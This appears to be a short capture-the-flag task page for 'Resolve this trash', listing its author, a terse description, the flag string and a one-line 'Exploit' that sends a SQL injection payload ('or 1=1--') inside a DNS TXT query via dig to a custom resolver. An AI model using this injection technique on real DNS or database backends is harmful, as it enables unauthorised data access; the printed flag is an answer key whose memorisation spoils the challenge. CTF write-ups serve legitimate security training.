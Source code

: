 # Название
Resolve this trash

# Автор
@amigo2208

# Описание
It is not resolving, it is just 🤬 trash

# Флаг
YetiCTF{ya_uzhe_ne_chelovek_ya_zver_n4y1}

# Exploit 😎
dig +noidnin +noidnout @<ip_address> -p 5300 "abc' or 1=1--" txt

